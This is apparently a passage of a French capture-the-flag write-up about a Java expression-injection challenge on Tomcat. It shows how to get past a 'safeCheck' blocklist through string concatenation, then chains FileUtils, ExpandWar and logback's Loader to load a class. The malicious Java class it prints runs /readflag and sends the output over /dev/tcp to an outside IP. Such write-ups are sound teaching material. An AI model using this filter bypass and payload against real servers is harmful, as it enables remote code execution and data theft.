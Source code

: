 ![Alt text](./img/screen10.png)


#### Bypass de la fonction *safeCheck*

La fonction *safeCheck* nous empêche d'avoir un payload contenant:   
- "org.spring"  
- "org.apache"  
- "<"  
- ">"  

Pour récuperer des class provenant de "org.apache" ou "org.spring", nous pouvons utiliser cette technique:  
```bash
''.getClass().forName("org."+"apache.catalina.startup.ExpandWar")
```

#### Création du répertoire
La class *FileUtils* de *"org.apache.tomcat.util.http.fileupload* a était utilisé avec la méthode: ``forceMkdir``

#### Copy du fichier 
La class *ExpandWar* de *"org.apache.catalina.startup.ExpandWar* avec la méthode ``copy`` à permit de déplacer le fichier

#### Chargement de la class et RCE
Enfin la méthode loadClass de *"ch.qos.logback.core.util.Loader"* a permis de charger la class malveillante et de RCE !

*(Note: C'est Tomcat qui a créé le dossier, c'est pour cela qu'une copie du fichier malveillant par le serveur web était nécessaire au lieu de directement l'écrire au bon endroit)*


Voici la class malveillante:

- tfns.java
```java
import java.io.IOException;

class Tfns
{
    public static void pwn() {
        try {
            String[] cmd = {"/bin/bash", "-c", "/readflag > /dev/tcp/<ip>/3333"};
            Runtime.getRuntime().exec(cmd);
        } catch(IOException e) {
        }
    }
}
```
```bash
javac tfns.java
cat tfns.class| base64
```
